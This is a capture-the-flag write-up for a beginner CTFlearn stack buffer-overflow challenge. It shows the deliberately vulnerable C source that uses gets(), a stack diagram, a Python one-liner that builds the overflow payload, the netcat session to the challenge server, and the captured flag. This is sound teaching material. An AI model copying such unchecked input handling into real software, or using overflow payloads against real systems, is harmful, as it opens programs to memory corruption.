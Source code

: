 > Want to learn the hacker's secret? Try to smash this buffer!
> You need guidance? Look no further than to [Mr. Liveoverflow](https://old.liveoverflow.com/binary_hacking/protostar/stack0.html). He puts out nice videos you should look if you haven't already
> `nc thekidofarcrania.com 35235`
> [bof.c](https://ctflearn.com/challenge/download/1010) 

## bof.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

// Defined in a separate source file for simplicity.
void init_visualize(char* buff);
void visualize(char* buff);
void safeguard();

void print_flag();

void vuln() {
  char padding[16];
  char buff[32];
  int notsecret = 0xffffff00;
  int secret = 0xdeadbeef;

  memset(buff, 0, sizeof(buff)); // Zero-out the buffer.
  memset(padding, 0xFF, sizeof(padding)); // Zero-out the padding.

  // Initializes the stack visualization. Don't worry about it!
  init_visualize(buff);

  // Prints out the stack before modification
  visualize(buff);

  printf("Input some text: ");
  gets(buff); // This is a vulnerable call!

  // Prints out the stack after modification
  visualize(buff);

  // Check if secret has changed.
  if (secret == 0x67616c66) {
    puts("You did it! Congratuations!");
    print_flag(); // Print out the flag. You deserve it.
    return;
  } else if (notsecret != 0xffffff00) {
    puts("Uhmm... maybe you overflowed too much. Try deleting a few characters.");
  } else if (secret != 0xdeadbeef) {
    puts("Wow you overflowed the secret value! Now try controlling the value of it!");
  } else {
    puts("Maybe you haven't overflowed enough characters? Try again?");
  }

  exit(0);
}

int main() {
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  safeguard();
  vuln();
}
```
- The program sets a buffer of 32 bytes and then padding of 16 bytes.
- It then creates two variables `notsecret` and `secret` and sets their value to `0xffffff00` and `0xdeadbeef` respectively.

## Stack
```        
           +---------------------------+
0xffbbf4e8 |  00 00 00 00 00 00 00 00  | < buffer
0xffbbf4f0 |  00 00 00 00 00 00 00 00  |
0xffbbf4f8 |  00 00 00 00 00 00 00 00  |
0xffbbf500 |  00 00 00 00 00 00 00 00  |
           +---------------------------+
0xffbbf508 |  ff ff ff ff ff ff ff ff  | < padding
0xffbbf510 |  ff ff ff ff ff ff ff ff  |
           +-------------+-------------+
0xffbbf518 | ef be ad de | 00 ff ff ff |
           +-------------+-------------+
             ^             ^
             secret        notsecret
```
- The program then has four conditional statements:
	1. Executes if the value of `secret` has been set to `0x67616c66` and prints out the flag.
	2. Executes if the value of `notsecret` has been altered.
	3. Executes if the value of `secret` has been altered but not set to `0x667616c66`.
	4. Executes if none of the above conditions are met.
- We need 48 bytes to fill the buffer and the padding and then `0x67616c66`.

## Exploit
```
$ python3 -c 'print("a"*48 + "\x66\x6c\x61\x67")'
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaflag
```
- Note that `0x67616c66` is written in little endian format. 
- Let's provide the string as the input.
```
$ nc thekidofarcrania.com 35235

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED CORRECT secret
0xfff45058 | 00 00 00 00 00 00 00 00 |
0xfff45060 | 00 00 00 00 00 00 00 00 |
0xfff45068 | 00 00 00 00 00 00 00 00 |
0xfff45070 | 00 00 00 00 00 00 00 00 |
0xfff45078 | ff ff ff ff ff ff ff ff |
0xfff45080 | ff ff ff ff ff ff ff ff |
0xfff45088 | ef be ad de 00 ff ff ff |
0xfff45090 | c0 55 f6 f7 84 1f 64 56 |
0xfff45098 | a8 50 f4 ff 11 fb 63 56 |
0xfff450a0 | c0 50 f4 ff 00 00 00 00 |

Input some text: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaflag

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED CORRECT secret
0xfff45058 | 61 61 61 61 61 61 61 61 |
0xfff45060 | 61 61 61 61 61 61 61 61 |
0xfff45068 | 61 61 61 61 61 61 61 61 |
0xfff45070 | 61 61 61 61 61 61 61 61 |
0xfff45078 | 61 61 61 61 61 61 61 61 |
0xfff45080 | 61 61 61 61 61 61 61 61 |
0xfff45088 | 66 6c 61 67 00 ff ff ff |
0xfff45090 | c0 55 f6 f7 84 1f 64 56 |
0xfff45098 | a8 50 f4 ff 11 fb 63 56 |
0xfff450a0 | c0 50 f4 ff 00 00 00 00 |

You did it! Congratuations!
CTFlearn{buffer_0verflows_4re_c00l!}
```

## Flag
```
CTFlearn{buffer_0verflows_4re_c00l!}
```
